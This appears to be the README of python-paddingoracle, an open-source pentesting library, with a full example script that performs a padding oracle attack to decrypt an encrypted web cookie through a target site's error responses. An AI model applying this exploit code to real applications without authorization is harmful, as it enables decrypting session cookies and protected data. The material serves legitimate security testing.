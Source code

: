 python-paddingoracle: A portable, padding oracle exploit API
============================================================

python-paddingoracle is an API that provides pentesters a customizable
alternative to `PadBuster`_ and other padding oracle exploit tools that can't
easily (without a heavy rewrite) be used in unique, per-app scenarios. Think
non-HTTP applications, raw sockets, client applications, unique encodings, etc.

Usage:
------

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes to
**decrypt()** with a block size (typically 8 or 16) and optional iv parameter.

See below for an example (from `the example`_): ::

    from paddingoracle import BadPaddingException, PaddingOracle
    from base64 import b64encode, b64decode
    from urllib import quote, unquote
    import requests
    import socket
    import time

    class PadBuster(PaddingOracle):
        def __init__(self, **kwargs):
            super(PadBuster, self).__init__(**kwargs)
            self.session = requests.Session()
            self.wait = kwargs.get('wait', 2.0)

        def oracle(self, data, **kwargs):
            somecookie = quote(b64encode(data))
            self.session.cookies['somecookie'] = somecookie

            while 1:
                try:
                    response = self.session.get('http://www.example.com/',
                            stream=False, timeout=5, verify=False)
                    break
                except (socket.error, requests.exceptions.RequestException):
                    logging.exception('Retrying request in %.2f seconds...',
                                      self.wait)
                    time.sleep(self.wait)
                    continue

            self.history.append(response)

            if response.ok:
                logging.debug('No padding exception raised on %r', somecookie)
                return

            # An HTTP 500 error was returned, likely due to incorrect padding
            raise BadPaddingException

    if __name__ == '__main__':
        import logging
        import sys

        if not sys.argv[1:]:
            print 'Usage: %s <somecookie value>' % (sys.argv[0], )
            sys.exit(1)

        logging.basicConfig(level=logging.DEBUG)

        encrypted_cookie = b64decode(unquote(sys.argv[1]))

        padbuster = PadBuster()

        cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

        print('Decrypted somecookie: %s => %r' % (sys.argv[1], cookie))


Credits
-------
python-paddingoracle is a Python implementation heavily based on `PadBuster`_,
an automated script for performing Padding Oracle attacks, developed by
Brian Holyfield of Gotham Digital Science.

.. _`the example`: https://github.com/mwielgoszewski/python-paddingoracle/blob/master/example.py
.. _`PadBuster`: https://github.com/GDSSecurity/PadBuster
